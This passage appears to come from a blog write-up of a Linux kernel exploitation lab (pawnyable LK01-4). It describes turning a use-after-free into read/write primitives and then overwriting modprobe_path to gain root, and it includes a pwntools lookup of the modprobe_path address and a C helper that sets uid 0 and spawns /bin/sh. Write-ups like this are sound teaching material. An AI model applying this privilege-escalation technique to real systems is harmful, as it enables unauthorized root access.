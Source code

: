 I also changed AAR to 64-bit version since I found gadget `mov rax, qword ptr [rdx]` and `RDX` is the register I have full 8-byte control over. I wanted to do the same with AAW but with `ioctl()` I can only control `RDX` (8-bytes) and `ECX` (4-bytes).

# On the way to root

With successful bug trigger and primitives in place I proceeded to try to pivot to ROP chain like it was described in the authors solution. But there was an issue with my exploit. I couldn't reliably trigger use-after-free twice in a row so I took a different approach. First I tried setting the threads name and scan the heap for it, but the exploit took forever to scan the heap and the string was not found. I'm guessing it has to do with using more CPU cores and SLUB having per CPU cache but I'm still not sure why It didn't work. In the end I overwrote `modprobe_path` to get root.

# Overwriting modprobe_path

Overwriting `modprobe_path` is pretty straightforward. I explained it a bit more in [previous article](../../../2024/01/20/Linux-Kernel-Exploitation-Heap-techniques.html#modprobe). To find an address of `modprobe_path` you can load the `vmlinux` binary and search for string `"/sbin/modprobe"`.
```python
In [1]: from pwn import *

In [2]: kernel = ELF("./vmlinux")
[*] '/home/stupid/pawnyable-cafe/LK01-4/qemu/vmlinux'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0xffffffff81000000)
    Stack:    Executable
    RWX:      Has RWX segments

In [3]: hex(next(kernel.search(b"/sbin/modprobe")))
Out[3]: '0xffffffff81e384c0'
```
Now what's left is to decine which program you want to call instead of `modprobe`. I looked over [gtfobins](https://gtfobins.github.io/) to find an inspiration which program would give me an instant shell but all programs needed to be run with `sudo` and `sudo` was not available inside my qemu Linux kernel instance. It seemed like the only way to spawn a shell is to write another C program and call it.
```c
int main() {
    printf("[+] getuid() returns %d\n", geteuid());
    setuid(0);
    setgid(0);
    system("/bin/sh");

    return 0;
}
```

# Lazy trick to spawn a shell
